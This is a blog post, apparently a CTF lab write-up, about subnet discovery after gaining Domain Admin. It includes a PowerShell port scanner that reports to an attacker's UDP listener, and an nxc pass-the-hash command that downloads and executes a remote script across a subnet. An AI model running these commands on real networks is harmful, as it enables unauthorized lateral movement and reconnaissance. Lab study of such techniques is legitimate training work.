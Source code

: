 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


## Introduction
During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **NXC Command**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$Ports = @(80, 445, 139, 22, 21, 88, 389, 636, 443, 8080, 8000)
$udpclient = New-Object System.Net.Sockets.UdpClient

1..254 | ForEach-Object {
    $ip = "$subnet.$_"
    Foreach ($p in $Ports) {
        try {
            $socket = New-Object System.Net.Sockets.TcpClient
            $async = $socket.BeginConnect($ip, $p, $null, $null)
            if ($async.AsyncWaitHandle.WaitOne(1000, $false)) {
                $result = "$env:computername - $ip - $p is open`n"
				$udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            } else {
                $result = "$env:computername - $ip - $p is closed`n"
				# $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            }
            $socket.Close()
        } catch {
            $result = "$env:computername - $ip - $p encountered an error`n"
            $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
        }
    }
}
$udpclient.Close()
```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for only port **(Updated the script since)** and was content with running this multiple times to get what i needed.
